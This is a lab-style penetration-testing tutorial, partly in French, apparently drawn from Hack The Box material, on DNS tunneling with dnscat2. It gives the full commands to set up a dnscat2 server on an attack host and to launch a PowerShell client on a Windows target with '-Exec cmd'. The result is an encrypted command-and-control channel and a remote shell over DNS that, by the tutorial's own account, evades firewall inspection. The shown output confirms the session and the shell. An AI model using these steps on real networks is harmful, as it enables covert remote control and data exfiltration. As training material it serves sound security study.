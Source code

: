 # DNS Tunneling with Dnscat2

***

{% hint style="warning" %}
Dnscat2 est un outil de tunneling qui utilise le protocole DNS pour envoyer des données entre deux hôtes. Il utilise un canal chiffré de Command-&-Control (**C\&C** ou **C2**) et envoie des données à l’intérieur des enregistrements TXT du protocole DNS.

D’habitude, chaque environnement de domaine Active Directory dans un réseau d’entreprise aura son propre serveur DNS, qui résoudra les noms d’hôte en adresses IP et acheminera le trafic vers des serveurs DNS externes participant au système DNS global. Cependant, avec **dnscat2**, la résolution d’adresse est demandée à un **serveur externe**. Lorsqu’un serveur DNS local tente de résoudre une adresse, les **données sont exfiltrées et envoyées sur le réseau** au lieu d’une requête DNS légitime.

**Dnscat2** peut être une approche extrêmement furtive pour exfiltrer des données tout en **échappant aux détections des pare-feu** qui analysent les connexions HTTPS et inspectent le trafic.

Pour notre exemple de test, nous pouvons utiliser un **serveur dnscat2** sur notre hôte d’attaque et exécuter le **client dnscat2** sur une autre machine Windows.
{% endhint %}

***

### <mark style="color:red;">Setting Up & Using dnscat2</mark>

<mark style="color:green;">**Cloning dnscat2 and Setting Up the Server**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/iagox86/dnscat2.git

cd dnscat2/server/
sudo gem install bundler
sudo bundle install
```

<mark style="color:green;">**Starting the dnscat2 server**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
{% endcode %}

{% hint style="info" %}
After running the server, it will provide us the secret key, which we will have to provide to our dnscat2 client on the Windows host so that it can authenticate and encrypt the data that is sent to our external dnscat2 server. We can use the client with the dnscat2 project or use [dnscat2-powershell](https://github.com/lukebaggett/dnscat2-powershell), a dnscat2 compatible PowerShell-based client that we can run from Windows targets to establish a tunnel with our dnscat2 server. We can clone the project containing the client file to our attack host, then transfer it to the target.
{% endhint %}

<mark style="color:green;">**Cloning dnscat2-powershell to the Attack Host**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ git clone https://github.com/lukebaggett/dnscat2-powershell.git
```
{% endcode %}

<mark style="color:green;">**Importing dnscat2.ps1**</mark>

```powershell-session
PS C:\htb> Import-Module .\dnscat2.ps1
```

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
```
{% endcode %}

We must use the pre-shared secret (`-PreSharedSecret`) generated on the server to ensure our session is established and encrypted. If all steps are completed successfully, we will see a session established with our server.

<mark style="color:green;">**Confirming Session Establishment**</mark>

```shell-session
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2>
```

We can list the options we have with dnscat2 by entering `?` at the prompt.

<mark style="color:green;">**Listing dnscat2 Options**</mark>

```shell-session
dnscat2> ?
```

We can use dnscat2 to interact with sessions and move further in a target environment on engagements. We will not cover all possibilities with dnscat2 in this module, but it is strongly encouraged to practice with it and maybe even find creative ways to use it on an engagement. Let's interact with our established session and drop into a shell.

<mark style="color:green;">**Interacting with the Established Session**</mark>

```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something!

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```
